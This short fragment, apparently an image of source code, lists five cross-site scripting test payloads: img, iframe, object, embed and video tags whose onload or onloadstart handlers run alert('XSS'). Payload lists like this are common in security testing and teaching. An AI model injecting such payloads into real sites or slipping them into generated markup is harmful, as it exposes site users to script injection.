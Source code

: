 <img src="https://example.com/image.png" onload="alert('XSS')">

<iframe src="https://example.com/embed.html" onload="alert('XSS')"></iframe>

<object data="https://example.com/object.swf" onload="alert('XSS')"></object>

<embed src="https://example.com/plugin.swf" onload="alert('XSS')">

<video src="https://example.com/video.mp4" onloadstart="alert('XSS')"></video>
